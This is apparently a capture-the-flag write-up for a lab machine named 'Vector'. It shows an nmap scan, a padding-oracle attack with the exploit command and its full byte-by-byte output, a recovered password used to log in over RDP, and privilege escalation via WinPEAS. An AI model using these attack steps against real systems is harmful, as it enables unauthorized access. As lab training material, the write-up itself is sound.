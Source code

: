 # Vector

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.119
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 17:12 +08
Nmap scan report for 192.168.233.119
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2290/tcp open  sonus-logging
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

### Web Enum

Port 80 reveals a basic login page:

<figure><img src="../../../.gitbook/assets/image (142).png" alt=""><figcaption></figcaption></figure>

Port 2290 was also a HTTP port, and it returned something simple:

<figure><img src="../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

C? When we view the page source, there's also this part here:

```markup
</div>
	<span id="MyLabel">ERROR: missing parameter "<b>c</b>"</span>
	<!--
		AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488
		
		Victor's TODO: Need to add authentication eventually..
	-->
</form>
```

There's a commented ciphertext, and there's also something which takes a parameter. We can try putting this ciphertext as the parameter requested.&#x20;

<figure><img src="../../../.gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>

If we remove some characters, then it loads something else.

<figure><img src="../../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

That's literally all of the enumeration that is possible to do.

### Paddling Oracle Attack --> RDP&#x20;

The first thing we can note is the AES mode used, which is CBC. This mode is insecure against a paddle oracle attack. For this application, it appears that when a parameter `c` (short for ciphertext) is submitted, we get a '1' if it has valid padding, else we get a '0'. This explains why the ciphertext, when submitted returns a '1'. This confirms that we need to use this attack to get the ciphertext out.&#x20;

Here's a full video explaining the paddle oracle attack (which I needed to know for my exam lol):

{% embed url="https://www.youtube.com/watch?v=4EgD4PEatA8" %}

Of course, to exploit this we will leverage on automated methods since it involves brute forcing each byte of the ciphertext. Tools like `padbuster` also work if configured properly, but I opted to use the script from this repo since it was easier to configure:

{% embed url="https://github.com/mpgn/Padding-oracle-attack" %}

{% code overflow="wrap" %}
```bash
$ python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.233.119:2290 -u /?c= --error '<span id="MyLabel">0</span>' --method GET
```
{% endcode %}

This would brute force every single character out. Here's the output of it:

```
[+] Search value block :  1 

[+] Found 1 bytes : 04

[+] Found 2 bytes : 0404

[+] Found 3 bytes : 040404

[+] Found 4 bytes : 04040404

[+] Found 5 bytes : 3704040404

[+] Found 6 bytes : 743704040404

[+] Found 7 bytes : 61743704040404

[+] Found 8 bytes : 5661743704040404

[+] Found 9 bytes : 655661743704040404

[+] Found 10 bytes : 6f655661743704040404

[+] Found 11 bytes : 6c6f655661743704040404

[+] Found 12 bytes : 416c6f655661743704040404

[+] Found 13 bytes : 6d416c6f655661743704040404

[+] Found 14 bytes : 726d416c6f655661743704040404

[+] Found 15 bytes : 6f726d416c6f655661743704040404

[+] Found 16 bytes : 576f726d416c6f655661743704040404


[+] Decrypted value (HEX): 576F726D416C6F655661743704040404
[+] Decrypted value (ASCII): WormAloeVat7
```

We get a password! SSH is not open on the machine, but RDP is. `xfreerdp` can be used to connect to it.&#x20;

```
$ xfreerdp /u:victor /p:WormAloeVat7 /v:192.168.233.119
```

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### WinPEAS --> Admin Shell

I downloaded and ran `winPEASx64.exe` on the machine, and found this output:

<figure><img src="../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

It's pretty trivial to get an administrator shell from this.&#x20;

<figure><img src="../../../.gitbook/assets/image (44).png" alt=""><figcaption></figcaption></figure>

Rooted!
